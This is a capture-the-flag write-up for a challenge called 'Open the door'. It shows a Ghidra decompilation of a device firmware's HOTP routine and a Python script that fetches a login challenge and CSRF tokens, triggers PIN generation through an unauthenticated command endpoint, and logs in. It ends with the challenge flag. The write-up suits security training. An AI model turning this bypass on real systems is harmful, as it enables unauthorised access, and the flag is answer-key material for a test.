

# Chapter 3: Open the door

## Challenge

Hi, emergency troubleshooter,

recent studies suggest that the intense heat and hard labor of solar technicians often trigger strange, vivid dreams about the future of energetics. Over the past few days, technicians have woken up night after night with the same terrifying screams "Look, up in the sky! It's a bird! It's a plane! It's Superman! Let's roast it anyway!".

Find out what's going on, we need our technicians to stay sane.

Stay grounded!

http://intro.falcon.powergrid.tcc/

NOTE: It turns out that the RoostGuard circuits are not resistant to the mating calls' frequency of local birds, making the online solution somewhat unstable. The offline route is the safer bet.

Hint: Be sure you enter flag for correct chapter.

Hint: In this realm, challenges should be conquered in a precise order, and to triumph over some, you'll need artifacts acquired from others - a unique twist that defies the norms of typical CTF challenges.

Hint: Chapter haiku will lead you.

Haiku:

```plain
Old lock greets the key,
rusted hinges sing once more-
new paths breathe the fire. 
```

http://roostguard.falcon.powergrid.tcc/

## TL;DR

Login requires a one-time PIN derived via the **HOTP** command handled by the RoostGuard firmware. The online flow was flaky (per organizer's note), but after fix we entered the **displayed HOTP PIN** and logged in. The flag then appeared on the authenticated page.

## Recognition

- Landing page shows "Unauthorized access prohibited"; login appears necessary.
- `/login` presents a **challenge code** and expects a **passcode**.
- From **Chapter 1**, `/operator` is accessible unauthenticated and can send device commands via `POST /command` with a `command` parameter.
- Observed commands in UI / firmware: `PASS`, `VERS`, `HOTP`, `LASE`, `AIMM`, `DEMO`, `TEXT`, `TURR`, `ZERO`.
- `HOTP` is executable **without auth**, matching a one‑time password generation path.

## Firmware Leads (from Chapter 2)

We extracted **roostguard-firmware-0.9.bin** and decompiled with **Ghidra** (Arduino/AVR). The interesting routine is `processHOTPCommand()`, which builds a key from the command plus a static padding, initializes HOTP, generates a code, displays it on LCD and logs to serial. It is using [SimpleHOTP library](https://github.com/jlusPrivat/SimpleHOTP).

### Decompilation of HOTP

```c
undefined1 * processHOTPCommand(void)
{
  char cVar1;
  char cVar2;
  char *pcVar3;
  byte bVar6;
  undefined1 *puVar4;
  int iVar5;
  bool bVar7;
  bool bVar8;
  char in_Hflg;
  char cVar9;
  char in_Tflg;
  char cVar10;
  char in_Iflg;
  char cVar11;
  undefined4 uVar12;
  undefined1 uStack_6;
  undefined1 uStack_5;
  undefined1 uStack_4;
  undefined1 uStack_3;
  undefined1 uStack_2;
  
  R1 = 0;
  uStack_2 = (byte)R17R16;
  uStack_3 = R17R16._1_1_;
  uStack_4 = (byte)Y;
  uStack_5 = Y._1_1_;
  bVar6 = (byte)((uint)&uStack_6 >> 8);
  cVar1 = (byte)&uStack_6 + 0xa9;
  bVar7 = (byte)&uStack_6 < 0x57;
  cVar2 = bVar6 - bVar7;
  Y = CONCAT11(cVar2,cVar1);
  cVar9 = in_Hflg == '\x01';
  cVar10 = in_Tflg == '\x01';
  cVar11 = in_Iflg == '\x01';
  R0 = bVar6 < bVar7 | (cVar1 == '\0' && cVar2 == '\0') << 1 | (cVar2 < '\0') << 2 |
       SBORROW1(bVar6,bVar7) << 3 | ((char)bVar6 < bVar7) << 4 | cVar9 << 5 | cVar10 << 6 |
       cVar11 << 7;
  SREG = R0;
  puVar4 = (undefined1 *)CONCAT11(cVar2,cVar1);
  R21R20 = 0x14;
  R23R22 = &commandBuffer;
  R25R24 = &hotpKeyBuffer;
  *(undefined3 *)(puVar4 + -2) = 0x12a4;
  strncpy(R25R24,R23R22,*(size_t *)(puVar4 + 1));
  R21R20 = 0x10;
  R23R22 = hotpSecretPadding;
  R25R24 = (undefined1 *)CONCAT11(-((commandLen < 0x72) + -3),commandLen + 0x8e);
  *(undefined3 *)(puVar4 + -2) = 0x12af;
  strncpy(R25R24,R23R22,*(size_t *)(puVar4 + 1));
  Z = &hotpKeyBuffer;
  do {
    pcVar3 = Z;
    Z = Z + 1;
    R0 = *pcVar3;
  } while (R0 != '\0');
  R21R20._0_1_ = (uchar)Z;
  R21R20._0_1_ = (uchar)R21R20 + 'q';
  R23R22 = &hotpKeyBuffer;
  R25R24 = (undefined1 *)(Y + 1);
  *(undefined3 *)(puVar4 + -2) = 0x12be;
  Key::Key((Key *)R25R24,R23R22,(uchar)R21R20);
  R17R16 = (char *)0x0;
  R23R22._0_1_ = (byte)Y;
  bVar6 = (byte)R23R22;
  R23R22._1_1_ = (char)((uint)Y >> 8);
  cVar1 = R23R22._1_1_;
  R23R22 = (undefined1 *)CONCAT11(R23R22._1_1_ - (((byte)R23R22 != 0xff) + -1),(byte)R23R22 + 1);
  R25R24 = (undefined1 *)CONCAT11(cVar1 - ((bVar6 < 0xbd) + -1),bVar6 + 0x43);
  *(undefined3 *)(puVar4 + -2) = 0x12ce;
  SimpleHOTP::SimpleHOTP((SimpleHOTP *)R25R24,(Key *)R23R22,*(ulonglong *)(puVar4 + 1));
  R25R24._0_1_ = (byte)Y;
  R25R24._1_1_ = (char)((uint)Y >> 8);
  R25R24 = (undefined1 *)CONCAT11(R25R24._1_1_ - (((byte)R25R24 < 0xbd) + -1),(byte)R25R24 + 0x43);
  *(undefined3 *)(puVar4 + -2) = 0x12d3;
  uVar12 = SimpleHOTP::generateHOTP((SimpleHOTP *)R25R24);
  R25R24._1_1_ = (char)((ulong)uVar12 >> 0x18);
  *puVar4 = R25R24._1_1_;
  _R23R22 = uVar12;
  puVar4[-1] = (byte)R25R24;
  puVar4[-2] = R23R22._1_1_;
  puVar4[-3] = (byte)R23R22;
  R25R24._0_1_ = 0x36;
  R25R24._1_1_ = 2;
  puVar4[-4] = 2;
  puVar4[-5] = (byte)R25R24;
  puVar4[-6] = R1;
  R25R24 = (undefined1 *)CONCAT11(R25R24._1_1_,7);
  puVar4[-7] = 7;
  R17R16._0_1_ = (byte)Y;
  R17R16._1_1_ = (char)((uint)Y >> 8);
  R17R16._1_1_ = R17R16._1_1_ - (((byte)R17R16 < 0xaf) + -1);
  R17R16 = (char *)CONCAT11(R17R16._1_1_,(byte)R17R16 + 0x51);
  puVar4[-8] = R17R16._1_1_;
  puVar4[-9] = (byte)R17R16;
  *(undefined3 *)(puVar4 + -0xc) = 0x12e5;
  snprintf(R25R24,R23R22);
  R25R24 = lcd;
  *(undefined3 *)(puVar4 + -0xc) = 0x12e9;
  LiquidCrystal_I2C::clear((LiquidCrystal_I2C *)R25R24);
  R23R22 = &DAT_mem_04dc;
  R25R24 = lcd;
  *(undefined3 *)(puVar4 + -0xc) = 0x12ef;
  Print::print((Print *)R25R24,R23R22);
  R21R20._0_1_ = '\x01';
  R23R22._0_1_ = '\0';
  R25R24 = lcd;
  *(undefined3 *)(puVar4 + -0xc) = 0x12f5;
  LiquidCrystal_I2C::setCursor((LiquidCrystal_I2C *)R25R24,(byte)R23R22,(uchar)R21R20);
  R23R22 = R17R16;
  R25R24 = lcd;
  *(undefined3 *)(puVar4 + -0xc) = 0x12fa;
  Print::print((Print *)R25R24,R23R22);
  R23R22 = (char *)0x23c;
  R25R24 = neoSerial;
  *(undefined3 *)(puVar4 + -0xc) = 0x1300;
  Print::print((Print *)R25R24,R23R22);
  R23R22 = &commandBuffer;
  R25R24 = neoSerial;
  *(undefined3 *)(puVar4 + -0xc) = 0x1306;
  Print::print((Print *)R25R24,R23R22);
  R23R22 = (char *)0x255;
  R25R24 = neoSerial;
  *(undefined3 *)(puVar4 + -0xc) = 0x130c;
  Print::print((Print *)R25R24,R23R22);
  R25R24 = neoSerial;
  *(undefined3 *)(puVar4 + -0xc) = 0x1311;
  uVar12 = Print::println(R25R24);
  R25R24 = (undefined1 *)((ulong)uVar12 >> 0x10);
  R23R22 = (undefined1 *)uVar12;
  bVar7 = (byte)Y < 0xa9;
  cVar1 = Y._1_1_ - (bVar7 + -1);
  bVar8 = SBORROW1(Y._1_1_,-1) != SBORROW1(Y._1_1_ + 1U,bVar7);
  R0 = (Y._1_1_ != -1 || (byte)(Y._1_1_ + 1U) < bVar7) |
       ((byte)((byte)Y + 0x57) == '\0' && cVar1 == '\0') << 1 | (cVar1 < '\0') << 2 | bVar8 << 3 |
       (cVar1 < '\0' != bVar8) << 4 | (cVar9 == '\x01') << 5 | (cVar10 == '\x01') << 6 |
       (cVar11 == '\x01') << 7;
  SREG = R0;
  iVar5 = CONCAT11(cVar1,(byte)Y + 0x57);
  Y._1_1_ = *(undefined1 *)(iVar5 + 1);
  Y._0_1_ = *(undefined1 *)(iVar5 + 2);
  R17R16._1_1_ = *(undefined1 *)(iVar5 + 3);
  R17R16._0_1_ = *(undefined1 *)(iVar5 + 4);
  R15 = *(undefined1 *)(iVar5 + 5);
  R14 = *(undefined1 *)(iVar5 + 6);
  return R25R24;
}
```

## Online Attempt (HTTP flow)

Automate the flow to fetch the **challenge** from `/login`, fetch **CSRF** tokens from `/login` and `/operator`, invoke `HOTP<challenge>` through `/command`, then submit the PIN to `/login`:

[operator_chall.py](operator_chall.py)

```python
import requests
import sys

cookies = {"session": "J74kySc9yhK37xm95ZoJzyfgPFKNvVgkz7hPD70KC84"}

# 1) Pull challenge + CSRF for /login
r = requests.get("http://roostguard.falcon.powergrid.tcc/login", cookies=cookies)
ch = r.text.split('<span id="login-challenge">')[1].split('</span>')[0]
csrf0 = r.text.split('<meta name="csrf-token" content="')[1].split('"')[0]
print("Challenge:", ch)

# 2) Get CSRF for /operator
r = requests.get("http://roostguard.falcon.powergrid.tcc/operator", cookies=cookies)
csrf = r.text.split('<meta name="csrf-token" content="')[1].split('"')[0]
print("CSRF:", csrf)

# 3) Trigger HOTP generation on device (unauth endpoint)
headers = {"x-Csrftoken": csrf}
data = {"command": "HOTP" + ch}
r = requests.post("http://roostguard.falcon.powergrid.tcc/command", headers=headers, data=data, cookies=cookies)
print(r.text)

# 4) Read PIN from LCD/stream, then submit
pin = input("PIN: ")
data = {"password": pin, "submit": "Login", "csrf_token": csrf0}
headers = {"x-Csrftoken": csrf0}
r = requests.post("http://roostguard.falcon.powergrid.tcc/login", data=data, cookies=cookies, headers=headers)
if "Invalid" in r.text:
    print("Invalid PIN"); sys.exit()
print(r.cookies)
```

**Observation:** The **video stream** showed our HOTP event (tagged by session cookie prefix). Initially the submitted PIN failed due to instability. Organizers added a stability note advising the **offline route**. With firmware in hand, reconstructing `SimpleHOTP` locally using the challenge + embedded secret would yield the same PIN. Shortly after, the online flow was fixed; the displayed PIN validated.



## Successful Login

Re-ran the flow, submitted the **displayed HOTP PIN**, and authenticated.

## Flag

```plain
FLAG{ui6l-waQb-o3QH-69Y4}
```
